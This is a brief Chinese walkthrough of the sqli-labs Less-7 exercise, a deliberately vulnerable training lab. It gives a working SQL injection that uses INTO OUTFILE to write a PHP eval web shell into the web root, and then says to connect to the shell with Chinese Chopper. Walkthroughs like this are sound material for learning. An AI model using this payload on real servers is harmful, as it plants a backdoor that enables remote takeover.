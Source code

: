 提示使用out_file判断需要文件操作。

直接写入一句话木马。

```javascript
?id=1'))union select 1,2,
'<?php @eval($_post["mima"])?>' into outfile 
"H:\\WWW\\sql-labs\\Less-7\\shell.php"--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/9D03E338CFB24C4FB10B6D9BFF587CD6clipboard.png)

虽然提示报错，但是木马已经写入成功了。使用菜刀 访问文件即可。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/61112A8499AB4AE1B8D5EBAC1EFE7179clipboard.png)



这里有个需要注意的点id的参数需要使用括号闭合。而且还是两个😶。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/D6829ABF769A486382E740F2D4B59673clipboard.png)

